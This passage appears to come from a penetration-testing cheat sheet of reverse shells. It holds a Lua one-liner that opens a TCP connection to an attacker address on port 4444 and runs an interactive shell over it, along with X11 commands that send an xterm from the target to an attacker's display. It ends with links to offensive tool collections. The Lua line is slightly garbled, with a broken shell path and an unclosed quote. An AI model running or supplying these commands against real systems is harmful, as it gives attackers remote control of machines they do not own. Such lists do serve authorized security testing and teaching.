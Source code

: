 ## Lua

```lua
lua -e "require('socket');require('os');t=socket.tcp();t:connect('10.10.10.10','4444');os.execute('bin/sh -i <&3 >&3 2>&3);"
```

## X11

From [GitHub droberson/rtfm rtfm.md#misc-reverse-shells)](https://github.com/droberson/rtfm/blob/master/rtfm.md#misc-reverse-shells)
```bash
# On attacking host, X11 must be accessible by the target machine:
Xnest :1
xhost +TARGET.IP.HERE

# On target:
xterm -display ATTACKER.IP.HERE:1
```

## References

[HackTools](https://github.com/LasCC/Hack-Tools)
[PentestMonkey](https://pentestmonkey.net/)
[Bank Security Simple C# Reverse Shell](https://gist.githubusercontent.com/BankSecurity/55faad0d0c4259c623147db79b2a83cc/raw/1b6c32ef6322122a98a1912a794b48788edf6bad/Simple_Rev_Shell.cs)